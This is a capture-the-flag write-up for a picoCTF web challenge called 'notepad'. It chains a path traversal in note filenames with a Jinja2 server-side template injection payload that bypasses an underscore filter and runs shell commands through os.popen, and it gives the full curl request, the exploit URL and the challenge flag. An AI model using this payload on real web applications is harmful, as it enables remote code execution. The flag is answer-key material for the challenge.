



# Web - notepad
## Writeup Author: kebabulon

---

### Task
This note-taking site seems a bit off.  
notepad.mars.picoctf.net



Attached files:
```
-- notepad.tar
   |-- app.py
   |-- Dockerfile  
   |-- solve.txt  
   |-- static
   |-- templates
       |-- errors 
       |   |-- bad_content.html
       |   |-- long_content.html 
       |-- index.html
```

---

### Solution

First of all, I had to find where the flag is.  
It is created in **Dockerfile**:  
```Dockerfile
FROM python:3.9.2-slim-buster

RUN pip install flask gunicorn --no-cache-dir

WORKDIR /app
COPY app.py flag.txt ./
COPY templates templates
RUN mkdir /app/static && \
    chmod -R 775 . && \
    chmod 1773 static templates/errors && \
    mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt

CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]

```
It is in ```app/``` directory and has a random name.  
We would likely need a RCE to get it. (foreshadowing)

The next step is finding an attack point. Lets look at **app.js**:

```js
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

We can see that the notepad file's name is based on the first 128 characters of it.  
That means there is a possibility of writting the notepad file somewhere else using **\.\.** .  

Something to note is that there are checks in case of ```_``` and ```/``` in  the contents of the file.  
We will have to find a way to bypass that >:)

Lets check **index.html**:
```jinja
<!doctype html>

  <h3>
    error: {{ error }}
  </h3>
  

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```

Oh boy... ``` include "errors/" + error + ".html" ignore missing ```  

Since we can write the notepad file anywhere, lets write it in ```errors/``` and include an RCE with it!  

#### Figuring out the RCE

After a quick google search, i found this [Jinja RCE](https://secure-cookie.io/attacks/ssti/):
```jinja
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
It looks complicated, but it is actually not so complicated!

- ```"foo".__class__.__base__.__subclasses__()``` - array of every class that is available to ```str``` class
- ```[182]``` - index of a class that imports ```os``` ( pretty handy! )
- ```.__init__.__globals__['sys'].modules['os']``` - gets the ```os``` module from the class's globals
- ```.popen("ls").read()``` - executes ```ls``` in bash and returns the output

This *would've* worked great, but we cannot use ```_``` in notepad's contents.  
Instead, we can get them from url's parameters with ```request.args.parameter```:
```jinja
{{"foo"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g]["sys"].modules["os"].popen("ls").read()}}
```
The url's parameters will look like this:
```
c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```

Alright, now lets construct our post request using curl:

```bash
curl --form "content=..\\templates\\errors\\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{\"f\"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g][\"sys\"].modules[\"os\"].popen(\"ls\").read()}}" "https://notepad.mars.picoctf.net/new" -s -o /dev/null -w %header{location}
```

I put a bunch of ```a```s so the filename is not the RCE itself.  

That curl request should return the url of the notepad file:

```
$ http://notepad.mars.picoctf.net/templates/errors/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw.html
```

Success! The file is in ```errors/```  
Now, lets test if it works.

The url looks like this:
```
https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw&c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```



"Finally!!!" - Me, like an hour ago.  

Anyways, the flag's filename is ```flag-c8f5526c-4122-4578-96de-d7dd27193798.txt```  
To print it out, we just repeat everything we did above but change the command to:  
```bash
cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
```



And we get the flag.

---

### Flag

```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```
